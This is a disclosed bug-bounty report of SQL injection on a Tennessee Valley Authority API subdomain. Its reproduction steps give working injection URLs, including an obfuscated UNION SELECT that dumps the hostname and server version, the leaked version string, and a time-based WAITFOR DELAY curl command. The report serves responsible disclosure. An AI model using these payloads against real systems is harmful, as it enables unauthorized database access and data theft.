 # SQL Injection on https://soa-accp.glbx.tva.gov/ via "/api/" path - VI-21-015

## Report Details
- **Report ID**: 1125752
- **URL**: https://hackerone.com/reports/1125752
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-03-15T08:48:47.169Z
- **Disclosed**: 2022-04-26T19:33:04.174Z

## Reporter
- **Username**: yassinek3ch
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: tennessee-valley-authority

## Vulnerability Information
## Summary:
 
i've found this subdomain ```soa-accp.glbx.tva.gov``` also is vulnerable to SQLI through /api/ path

## Steps To Reproduce:

```https://soa-accp.glbx.tva.gov/api/river/observed-data/GVDA1'+%2f*!50000union*%2f+SELECT+HOST_NAME()--+-``` hostname dumped

```https://soa-accp.glbx.tva.gov/api/river/observed-data/GVDA1'+%2f*!50000union*%2f+SELECT+@@version--+-``` 

Microsoft SQL Server 2017 (RTM-CU22-GDR) (KB4583457) - 14.0.3370.1 (X64) \n\tNov  6 2020 18:19:52 \n\tCopyright (C) 2017 Microsoft Corporation\n\tEnterprise Edition (64-bit) on Windows Server 2012 R2 Standard 6.3 <X64> (Build 9600: ) (Hypervisor)\n

also you can retest it through time bassed trick

```time curl -k "https://soa-accp.glbx.tva.gov/api/river/observed-data/-GVDA1'+WAITFOR+DELAY+'0:0:10'--+-"```

{F1230364}

## Impact

An attacker can manipulate the SQL statements that are sent to the MySQL database and inject malicious SQL statements. The attacker is able to change the logic of SQL statements executed against the database.

## Attachments
- Screenshot_2021-03-15_at_09.47.58.png
